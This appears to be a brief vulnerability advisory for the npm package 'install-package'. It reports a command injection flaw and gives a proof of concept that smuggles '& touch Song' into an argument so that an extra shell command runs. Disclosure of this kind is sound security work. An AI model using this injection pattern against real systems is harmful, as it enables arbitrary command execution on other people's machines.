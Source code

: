 # Overview

`install-package` is a package that installs node modules from JavaScript.

This package is vulnerable to Command Injection, the argument options can be controlled by users without any sanitization giving attackers the ability to execute malicious code.

# POC

```var root = require("install-package");
root("", "& touch Song");
```
